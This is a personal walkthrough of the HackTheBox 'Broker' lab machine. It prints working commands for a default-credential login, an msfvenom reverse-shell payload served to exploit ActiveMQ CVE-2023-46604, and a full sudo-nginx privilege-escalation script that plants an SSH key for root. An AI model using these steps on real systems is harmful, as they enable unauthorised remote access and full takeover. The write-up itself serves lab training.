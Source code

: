 ```yaml
---
title: Broker
tags:
  - HackTheBox
  - Easy
  - Linux
  - ActiveMQ
  - Sudo-Vulnerability
  - Nginx
---
```

![](Pasted%20image%2020241106230259.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.243 broker.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- broker.htb > sC.txt

[redacted]
```

So I checked the website and got asked for some credentials:

![](Pasted%20image%2020241106230556.png)

I always try some basic combinations and in this case `admin:admin` worked!:

![](Pasted%20image%2020241106230631.png)

After inspecting the source code, I found the version in use of ActiveMQ (5.15.15) inside `/admin`:

![](Pasted%20image%2020241106230829.png)

## Weaponization

I searched in Google for "*activemq 5.15.15 exploit*" and found [CVE-2023-46604](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

## Exploitation

I followed the instructions of the exploit:

```shell
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git

cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.24 LPORT=666 -f elf -o test.elf

# Now edit the poc-linux.xml and change the ip to you machine (in my case 10.10.14.24)

python3 -m http.server 8090

go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-linux.xml
```

> I got a reverse shell :D

![](Pasted%20image%2020241106231752.png)

![](Pasted%20image%2020241106231819.png)

> After stabilizing, we can now read the user flag 

![](Pasted%20image%2020241106231938.png)

## Privilege escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

So I found a way to escalate privileges by using this [script](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406):

- First go to the home directory of an interactive session (`cd ~`)

```shell
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

Then run the exploit:

```shell
chmod +x exploit.sh
./exploit.sh
```

Store the SSH Private Key then use it to connect to the host:

```shell
chmod 600 root_key
ssh -i root_key root@host
```

> Now we are root and can read root flag

![](Pasted%20image%2020241106232845.png)

==Machine pwned!==